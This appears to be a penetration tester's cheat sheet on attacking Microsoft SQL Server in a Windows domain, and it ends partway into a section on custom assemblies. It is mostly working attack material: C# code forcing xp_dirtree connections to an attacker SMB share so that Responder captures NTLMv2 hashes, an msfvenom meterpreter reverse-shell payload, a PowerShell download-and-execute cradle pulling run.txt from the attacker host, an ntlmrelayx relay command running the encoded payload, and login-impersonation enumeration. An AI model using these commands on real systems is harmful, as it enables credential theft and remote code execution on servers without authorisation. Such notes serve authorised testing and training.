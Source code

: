 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: MSSQL
---
```



<span style="font-size: 35px; color:red"><b>MSSQL</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumeration</b></span>

Usually on port 1433
If we have compromised a domain-joined workstation in the context of a domain user and we want to query the domain controller for all registered SPNs related to MS SQL:
```shell
setspn -T corp1 -Q MSSQLSvc/*
```
OR
```powershell
. .\GetUserSPNs.ps1
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Authentication</b></span>
This can be either an SQL server login (local account) or we can use Windows account-based (Kerberos, TGS). After that, the login is mapped to a database user account.

C# Console app to authenticate against an SQL Server:
```cs
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            String sqlServer = "dc01.corp1.com";
            String database = "master";

            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);
			try
	        {
              con.Open();
              Console.WriteLine("Auth success!");
            }
            catch
            {
              Console.WriteLine("Auth failed");
              Environment.Exit(0);
            }

			String querylogin = "SELECT SYSTEM_USER;";
            SqlCommand command = new SqlCommand(querylogin, con);
            SqlDataReader reader = command.ExecuteReader();

			reader.Read();
            Console.WriteLine("Logged in as: " + reader[0]);
            reader.Close();

			String querypublicrole = "SELECT IS_SRVROLEMEMBER('public');";
            command = new SqlCommand(querypublicrole, con);
            reader = command.ExecuteReader();
            reader.Read();
            Int32 role = Int32.Parse(reader[0].ToString());
            if(role == 1)
            {
              Console.WriteLine("User is a member of public role");
            }
            else
            {
              Console.WriteLine("User is NOT a member of public role");
            }
            reader.Close();
            
            con.Close();
        }
    }
}   
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>mssqlclient.py</b></span>
```shell
mssqlclient.py <USER>:<PASS>@<IP> -port 1433 -windows-auth
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>UNC Path Injection</b></span>
If we can force an SQL server to connect to an SMB share we control, the connection will include authentication data (NTLMv2 Auth).
&nbsp;
Start Responder:
```shell
sudo responder -I tap0
```

Then, to start the SMB connection to Kali machine:
```cs
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            String sqlServer = "dc01.corp1.com"; //change here
            String database = "master"; //change here?

            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);
           
            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }

            String query = "EXEC master..xp_dirtree \"\\\\<KALI_IP>\\\\test\";"; //change here
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Close();
            
            con.Close();
        }
    }
}
```

OR
find a way to submit commands to mssql and submit an exploit like:
```
xp_dirtree '\\<kali_machine>\file'
```
to get a NTLMv2 hash in responder.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Relay My Hash</b></span>
Technique that will yield code execution on the operating system of the SQL server without requiring us to crack the hash.
If we have captured the NTLM hash of a domain user that is a local administrator on a remote machine, we can perform a pass-the-hash attack and gain remote code execution on another remote hostthe user's local admin of.

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> -f ps1
```
Embed the payload in the powershell shellcode runner (the one starting with <span style="color:red">function LookupFunc {...</span> ) and save it as run.txt.

Probably not working against DC (SMB Signing enabled).
```shell
pwsh
$text = "(New-Object System.Net.WebClient).DownloadString('http://<KALI_MACHINE>/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```
You'll get a base64 encoded payload (<b64_payload>).

Start a meterpreter multi handler on kali (<span style="color:red">sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST <LHOST>; set LPORT 443; exploit"</span>).

Run:
```shell
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target_ip> -c 'powershell -enc <b64_payload>'
```

Then run the SQL.exe C# code from the previews chapter (UNC Path Injection) on the machine you have access to and you should get a revshell.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Impersonation</b></span>
<span style="color:red">EXECUTE AS LOGIN</span>
Enumerating login impersonation permissions
```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

C# Code to run on the machine to issue the query
```cs
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            String sqlServer = "dc01.corp1.com"; //change here
            String database = "master"; //change here?

            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);
           
            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }
			
			String query = "SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';";
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();

            while(reader.Read() == true)
            {
              Console.WriteLine("Logins that can be impersonated: " + reader[0]);
            }
            reader.Close();

			con.Close();
        }
    }
}
```
You'll get logins that allow impersonations.
Once done, check github repo CODE_SNIPPETS to go on (MSSQL > program.cs, delete parts you don't need). TLTR
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Custom Assemblies</b></span>
If a DB has TRUSTWORTHY property set, it's possible to use the CREATE ASSEMBLY statement to import a managed dll as object.
